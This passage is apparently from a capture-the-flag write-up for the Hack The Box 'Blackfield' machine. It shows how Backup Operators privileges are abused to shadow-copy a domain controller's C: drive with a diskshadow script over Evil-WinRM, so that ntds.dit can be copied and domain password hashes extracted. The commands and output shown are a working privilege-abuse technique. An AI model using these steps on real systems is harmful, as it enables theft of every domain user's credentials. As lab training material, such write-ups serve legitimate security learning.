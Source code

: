 ```bash
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

We see our user is in the Backup Operators Group and also have a privileges of SeBackupPrivilege and SeRestorePrivilege

Using these privis we can get the ntds.dti file which have the hashes of all the domain users, Since this file is already being used by another process we cannot just copy this file and download it.

We first have to shadow copy the c dive and then copy the file ntds.dit file and then download it and get the hashes locally

### dsh script for diskshadow

We can make a dsh script to create a shadow copy of the c drive and expose it on a drive we can name it as z:/ drive

```bash
set context persistent nowriters
add volume c: alias bak
create
expose %bak% z:
```

Now we can convert this script in our linux using unix2dos and then upload it 

```bash
unix2dos bak.dsh
```

### Creating a shadow copy

```bash
*Evil-WinRM* PS C:\temp> upload blackfield/bak.dsh
                                        
Info: Uploading /home/kali/htb/blackfield/bak.dsh to C:\temp\bak.dsh
                                        
Data: 112 bytes of 112 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\temp> diskshadow /s bak.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/22/2025 1:19:19 PM

-> SET CONTEXT PERSISTENT NOWRITERS
-> add volume c: alias bak
-> create
Alias bak for shadow ID {b22c05b6-71f1-4d45-b43a-e019b2ebee0a} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {04d3260e-7a8b-45b3-aece-d9bd1be4e5ca} set as environment variable.

Querying all shadow copies with the shadow copy set ID {04d3260e-7a8b-45b3-aece-d9bd1be4e5ca}

        * Shadow copy ID = {b22c05b6-71f1-4d45-b43a-e019b2ebee0a}               %bak%
                - Shadow copy set: {04d3260e-7a8b-45b3-aece-d9bd1be4e5ca}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
```